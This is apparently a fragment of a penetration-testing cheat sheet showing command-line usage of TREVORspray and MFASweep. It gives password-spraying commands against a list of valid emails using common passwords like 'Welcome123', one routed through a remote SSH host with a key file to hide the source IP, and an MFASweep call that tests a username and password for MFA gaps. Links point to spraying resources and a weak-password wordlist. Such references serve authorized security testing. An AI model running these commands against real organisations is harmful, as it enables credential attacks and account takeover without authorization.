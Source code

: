 #### TREVORspray
```bash
trevorspray -u valid_emails.txt -p 'Welcome123' --delay 15
```

```bash
trevorspray -u valid_emails.txt -p 'Welcome123!' --delay 5 --no-current-ip --ssh ubuntu@100.25.38.206 -k Octo_AWS.pem
```

[Resource](https://github.com/puzzlepeaches/awesome-password-spraying)
[Wordlist](https://weakpasswords.net/)
#### MFASweep
```powershell
Import-Module .\MFASweep.ps1

Invoke-Sweep -Username anton@adot8.com -Password Haha123!
```